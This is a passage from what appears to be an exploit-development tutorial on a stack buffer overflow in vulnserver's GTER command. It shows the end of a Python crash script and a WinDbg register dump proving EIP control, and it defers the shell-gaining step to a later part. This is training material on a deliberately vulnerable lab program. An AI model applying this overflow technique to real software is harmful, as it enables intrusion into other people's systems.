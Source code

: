 ```python
print "[*] Sending exploit..."
s.send("GTER " + buffer)
print s.recv(1024)
s.close()
```

<p align="justify">
If we execute the above script, we will see that we control the EIP register.
</p>

``` 
WINDBG>r
eax=012cf928 ebx=00000100 ecx=00ec4998 edx=00000000 esi=00401848 edi=00401848
eip=42424242 esp=012cf9c8 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
42424242 ??              ???
```

<p align="justify">
We also see the same results in IDA Pro as follows 
</p>

<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="https://xen0vas.github.io/assets/images/2021/04/RIP.png" alt="bp-windbg-hit" width="450" height="400" />

<p align="justify">
At this point we can continue with the exploitation of the buffer overflow vulnerability in order to gain a shell. The exploitation of the vulnserver GTER command will be shown at a second part of this article.   
</p>





